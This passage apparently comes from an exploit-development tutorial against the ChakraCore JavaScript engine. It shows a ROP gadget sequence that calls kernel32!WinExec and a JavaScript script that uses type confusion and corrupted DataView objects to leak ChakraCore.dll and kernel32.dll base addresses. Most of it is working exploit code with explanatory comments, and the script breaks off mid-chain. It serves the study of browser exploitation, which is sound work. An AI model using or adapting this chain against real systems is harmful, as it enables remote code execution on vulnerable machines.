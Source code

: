 ```
pop rdx ; ret
<0 as the second parameter> (placed into RDX)

pop rax ; ret
<WinExec address> (placed into RAX)

jmp rax (call kernel32!WinExec)
```

The above gadgets will fill RDX with our last parameter, and then place `WinExec` into RAX. Here is how we update our final script.

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
```